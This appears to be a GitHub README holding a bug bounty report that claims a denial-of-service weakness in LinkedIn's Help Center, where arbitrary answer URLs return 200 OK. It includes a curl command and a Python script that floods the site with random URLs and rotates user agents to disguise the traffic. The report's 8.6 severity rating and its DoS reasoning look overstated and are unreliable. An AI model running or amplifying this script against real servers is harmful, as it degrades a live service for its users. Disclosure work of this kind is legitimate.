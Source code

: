 # HelpOut
Ddos resources exhaustion for LinkedIn help center

Here's the first report:
[Double Barrel 0day](https://raw.githubusercontent.com/DeadmanXXXII/Double_Barrel)

---

### Bug Bounty Report

**Title:** Potential DoS Vulnerability in LinkedIn Help Center URLs Due to Improper URL Handling

**Report Date:** August 28, 2024

**Reporter:** Blu Corbel AKA DeadmanXXXII

**Program:** LinkedIn Bug Bounty Program

---

#### Summary:

I have discovered a potential Denial of Service (DoS) vulnerability in LinkedIn's Help Center URL handling mechanism. By altering the last 7 characters of certain Help Center URLs, the server consistently returns a status code of 200 OK for URLs that do not actually exist. This behavior can be exploited to perform a DoS attack by generating and requesting numerous random URLs, overwhelming LinkedIn's servers.

#### Impact:

The vulnerability allows an attacker to flood LinkedIn's servers with legitimate-looking requests that consume resources, potentially degrading service performance or leading to a full-scale outage. Such an attack could disrupt the availability of LinkedIn's Help Center and other related services.

#### CVSS Score:

- **CVSS Version:** 3.1
- **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- **Base Score:** 8.6 (High)

#### CWE ID:

- **CWE-400:** Uncontrolled Resource Consumption ('Resource Exhaustion')

---

#### Steps to Reproduce:

1. Start with the base LinkedIn Help Center URL: `https://www.linkedin.com/help/linkedin/answer/a1341680`
2. Modify the last 7 characters of the URL with any random digits or characters, for example: `https://www.linkedin.com/help/linkedin/answer/a1041689`.
3. Use `curl` or any HTTP client to make a request to the generated URL:
   ```bash
   curl -I https://www.linkedin.com/help/linkedin/answer/a1041689
   ```
4. Observe that the server consistently returns a `200 OK` status code along with valid content, even for URLs that do not exist.

#### Proof of Concept (PoC) Script: **HelpOut.py**

The following Python script, named **HelpOut.py**, demonstrates how an attacker might exploit this vulnerability by generating random URLs and sending requests with varying user agents.

```python
import requests
import random
import string
import time

# Base URL for LinkedIn Help Center
base_url = "https://www.linkedin.com/help/linkedin/answer/a"

# Random User Agents
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 11; SM-G998B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 15_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base):
    # Generate a random 7-character alphanumeric string
    random_chars = ''.join(random.choices(string.ascii_lowercase + string.digits, k=7))
    return base + random_chars

def send_request(url):
    # Choose a random User Agent
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    response = requests.head(url, headers=headers)
    print(f"Requested URL: {url} | Status Code: {response.status_code}")

# Generate and request random URLs
for _ in range(1000):  # Modify this number to increase/decrease the number of requests
    random_url = generate_random_url(base_url)
    send_request(random_url)
    time.sleep(0.1)  # Pause between requests to simulate more realistic traffic
```

---

#### Mitigation Recommendations:

1. **Implement Rate Limiting:** Enforce rate limits on incoming requests to prevent abuse by automated scripts and bots.
2. **Return Proper Error Codes:** Ensure that only valid resources return a `200 OK` status code. Non-existent or unauthorized resources should return appropriate error codes like `404 Not Found`.
3. **Request Throttling:** Apply throttling mechanisms on repetitive and identical requests to prevent resource exhaustion.
4. **Response Caching:** Implement caching mechanisms to avoid reprocessing identical requests, thus reducing the load on servers.

#### Business Impact:

If exploited, this vulnerability can cause severe service disruptions, affecting user access to LinkedIn Help Center resources and potentially leading to widespread dissatisfaction among users. Furthermore, the attack can compromise LinkedIn's reputation for reliability and security.

---

#### Additional Information:

- **LinkedIn Help Center URLs:** This issue appears to be specific to certain LinkedIn Help Center URLs. However, further investigation might reveal similar vulnerabilities in other areas of the platform.
- **Server Behavior:** The consistent `200 OK` response, regardless of the validity of the resource, suggests that the backend server may not be verifying the existence of the requested resource, leading to unnecessary processing.

---

Please review the findings and consider implementing the recommended mitigations to protect LinkedIn's infrastructure from potential abuse. I am happy to provide further clarification or assist with any testing as needed.

**Blu Corbel AKA DeadmanXXXII**

---


![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-215828.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/)
